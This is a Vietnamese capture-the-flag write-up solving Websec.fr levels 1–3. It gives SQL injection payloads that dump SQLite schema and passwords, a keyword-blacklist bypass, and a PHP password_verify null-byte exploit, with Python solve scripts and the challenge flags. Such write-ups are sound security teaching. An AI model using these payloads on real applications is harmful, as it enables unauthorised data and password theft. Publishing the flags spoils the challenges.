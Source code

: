 <!-- markdownlint-disable MD024 -->
# Websec

## Level 01

> Nothing fancy
>
> 🔥 <https://websec.fr/level01/>

Tại level 1 này, chúng ta sẽ bắt đầu với một thử thách SQL Injection đơn giản.

Ứng dụng sẽ lấy `id` chúng ta nhập vào và trả về username cũng như id tương ứng.

![image](images/level-01/image-1.png)

Nếu chúng ta nhập vào `1'` sẽ thấy lỗi xuất hiện. Từ đó cho ta biết server đang sử dụng SQLite và giá trị của `id` đang được truyền thẳng vào câu truy vấn.

![image](images/level-01/image-2.png)

Vậy chúng ta có thể sử dụng payload như sau để xác định phiên bản của SQLite.

```sql
1 UNION SELECT null, sqlite_version();
```

![image](images/level-01/image-3.png)

Với phiên bản là `3.27.2`, chúng ta sẽ sử dụng payload sau để biết được cấu trúc của database.

```sql
1 UNION SELECT null, sql FROM sqlite_master
```

![image](images/level-01/image-4.png)

Vậy là câu truy vấn gốc không lấy ra giá trị từ cột `password`, chúng ta sẽ tận dụng SQL Injection để thực hiện điều đó.

Với `id` là `1` thì chúng ta sẽ lấy được password chứa flag.

```sql
1 UNION SELECT null, password FROM users WHERE id=1
```

![image](images/level-01/image-5.png)

Ngoài ra, chúng ta cũng có thể sử dụng payload sau để lấy hết tất cả password có trong bảng `users`.

```sql
1 UNION SELECT null, group_concat(password) FROM users
```

### Flag

`WEBSEC{Simple_SQLite_Injection}`

## Level 02

> Nothing fancy, with a twist
>
> 🔥 <https://websec.fr/level02/>

![image](images/level-02/image-1.png)

Sang tới level 2 này, lập trình viên đã thay thế các từ `union`, `order`, `select`, `from`, `group`, `by` (không phân biệt hoa thường) thành chuỗi rỗng `''`.

![image](images/level-02/image-2.png)

Vậy chúng ta có thể tạo thành từ `UNION` bằng cách sử dụng `UbyNION`, những từ khoá khác cũng tạo tương tự.

Mình đã viết một script Python bên dưới để lấy flag.

```python
import requests
import re

URL = "https://websec.fr/level02/index.php"

payload = "1 UbyNION SbyELECT null, password FbyROM users where id=1"

def solve():
    data = {
        "user_id": f"{payload}",
        "submit": ""
    }

    r = requests.post(URL, data=data)
    flag = re.search(r"WEBSEC{\w*}", r.text).group(0)

    print(flag)


if __name__ == "__main__":
    solve()

```

### Flag

`WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`

## Level 03

> ChaChaCha!
>
> 🔥 <https://websec.fr/level03/>

![image](images/level-03/image-1.png)

Khi thử nhập chuỗi bất kỳ như `abc` chúng ta thấy hiện ra chuỗi hash của flag `7c00249d409a91ab84e3f421c193520d9fb3674b`:

![image](images/level-03/image-2.png)

Xem source code tại [https://websec.fr/level03/source.php](https://websec.fr/level03/source.php), chúng ta tập trung vào đoạn code xử lý khi gửi chuỗi lên server:

```php
<?php
if(isset($_POST['c'])) {
    /*  Get rid of clever people that put `c[]=bla`
     *  in the request to confuse `password_hash`
     */
    $h2 = password_hash (sha1($_POST['c'], fa1se), PASSWORD_BCRYPT);

    echo "<div class='row'>";
    if (password_verify (sha1($flag, fa1se), $h2) === true) {
       echo "<p>Here is your flag: <mark>$flag</mark></p>"; 
    } else {
        echo "<p>Here is the <em>hash</em> of your flag: <mark>" . sha1($flag, false) . "</mark></p>";
    }
    echo "</div>";
}
?>
```

Có thể thấy rằng chuỗi chúng ta nhập vào được hash sha1 nhưng tạo ra raw bytes bởi vì sử dụng `fa1se` thay vì giá trị `false` và tiếp tục được hash bcrypt:

```php
 $h2 = password_hash (sha1($_POST['c'], fa1se), PASSWORD_BCRYPT);
```

Sau đó thực hiện gọi đến hàm `password_verify()` với 2 đối số hash sha1 của flag cũng ở dạng raw bytes với chuỗi hash bcrypt của chúng ta.

Xem source code triển khai của hàm [password_verify()](https://github.com/php/php-src/blob/PHP-5.6.26/ext/standard/password.c#L273), chúng ta thấy chuỗi hash truyền vào được lưu trữ với `char *ret, *password, *hash;` khiến nó chỉ lấy các ký tự cho đến khi gặp null byte.

Vì hash của flag là `7c00249d409a91ab84e3f421c193520d9fb3674b` có null byte ở vị trí thứ 2, do đó khi được xử lý trong hàm `password_verify()` nó sẽ chỉ còn một byte `7c`.

Vậy, chúng ta cần brute-force để tìm ra chuỗi có hash sha1 bắt đầu với bytes `7c00`. Chúng ta có thể viết script khai thác như sau:

```python
import hashlib
import requests
import re

i = 0

found = ""
while True:
    if hashlib.sha1(str(i).encode()).hexdigest().startswith("7c00"):
        found = i
        print(f"[+] Found: {found}")
        break
    i += 1

r = requests.post("https://websec.fr/level03/index.php", data={"c":found})
flag = re.search(r"WEBSEC{.*}", r.text).group(0)
print(f"[+] FLAG: {flag}")
```

Chạy script và nhận được flag:

```text
$ python3 solve.py
[+] Found: 104610
[+] FLAG: WEBSEC{Please_Do_not_combine_rAw_hash_functions_mi}
```

### Flag

`WEBSEC{Please_Do_not_combine_rAw_hash_functions_mi}`
